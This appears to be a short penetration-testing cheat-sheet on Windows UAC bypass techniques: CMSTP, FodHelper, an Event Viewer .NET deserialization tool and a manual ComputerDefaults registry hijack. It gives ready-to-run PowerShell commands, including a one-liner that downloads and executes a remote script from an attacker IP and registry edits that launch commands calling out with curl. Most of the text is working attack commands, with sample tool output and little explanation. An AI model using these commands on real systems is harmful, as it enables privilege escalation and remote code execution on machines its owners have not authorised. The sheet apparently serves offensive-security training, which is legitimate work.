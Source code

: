 ## CMSTP

- Invoke: `iex(iwr http://192.168.45.195/cmstp.ps1 -useb)`
- Execute: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

## FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

## EventViewer
- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.

```powershell
    PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1
    
    PS C:\Windows\Tasks> Invoke-EventViewer 
    [-] Usage: Invoke-EventViewer commandhere
    Example: Invoke-EventViewer cmd.exe
    
    PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
    [+] Running
    [1] Crafting Payload
    [2] Writing Payload
    [+] EventViewer Folder exists
    [3] Finally, invoking eventvwr
```

## Manual Approach - ComputerDefaults
```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```
